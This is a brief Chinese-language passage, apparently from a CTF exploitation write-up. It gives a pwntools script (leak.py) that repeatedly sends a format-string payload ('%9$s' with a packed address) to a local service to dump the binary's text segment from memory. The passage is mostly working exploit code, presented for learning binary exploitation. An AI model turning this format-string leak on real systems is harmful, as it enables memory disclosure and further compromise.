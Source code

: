 [![](assets/1701612281-6dcb9fb40f173d384d8fbdaaa6f68c21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224106-208d8f7a-2579-1.png)

我们在1164与1188的地方找到了加载始地址

之后把leak.py修改一下即可

```plain
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii

r = remote('127.0.0.1',11112)

def leak(addr):
    payload = "%9$s.TMP" + p32(addr)
    r.sendline(payload)
    print "leaking:", hex(addr)
    r.recvuntil('right:')
    ret = r.recvuntil(".TMP",drop=True)
    print "ret:", binascii.hexlify(ret), len(ret)
    #使用binascii 将泄漏出来字符串每一个都从 ascii 转换为 十六进制，方便显示
    remain = r.recvrepeat(0.2)
    #r.recvrepeat(0.2) 接受返回的垃圾数据，方便下一轮的输入
    return ret

# name
r.recv()
r.sendline('nameaaa')
r.recv()

# leak
begin = 0x8048510
text_seg =''
try:
    while True:
        ret = leak(begin)
        text_seg += ret
        begin += len(ret)
        #泄漏地址动态增加，假如泄漏 1 字节就增加 1 ；泄漏 3 字节就增加 3
        if len(ret) == 0:   # nil
            begin +=1
            text_seg += '\x00'
        #处理泄漏长度为 0 ，也就是数据是 \x00 的情况。地址增加 1 ，程序数据加 \x00
except Exception as e:
    print e
finally:
    print '[+]',len(text_seg)
```